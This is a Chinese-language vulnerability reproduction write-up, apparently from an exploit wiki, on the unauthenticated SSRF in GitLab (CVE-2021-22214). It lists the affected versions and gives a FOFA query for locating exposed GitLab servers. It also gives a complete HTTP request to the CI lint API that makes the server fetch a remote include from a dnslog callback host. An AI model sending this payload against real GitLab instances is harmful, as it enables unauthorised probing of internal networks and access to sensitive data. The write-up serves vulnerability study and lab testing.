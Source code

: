 ```yaml
---
title: GitLab SSRF漏洞 CVE-2021-22214
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - GitLab
---
```


# GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

> [!NOTE]
>
> Gitlab > 10.5 

## FOFA

> [!NOTE]
>
> app="GitLab"

## 环境搭建

http://vulfocus.fofa.so/

![image-20210627220351605](/img/20210924020307762631.png)

## 漏洞复现

登录页面如下

![image-20210627220651158](/img/20210924020307902681.png)

发送请求包

```
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```

![image-20210627220854023](/img/20210924020308081036.png)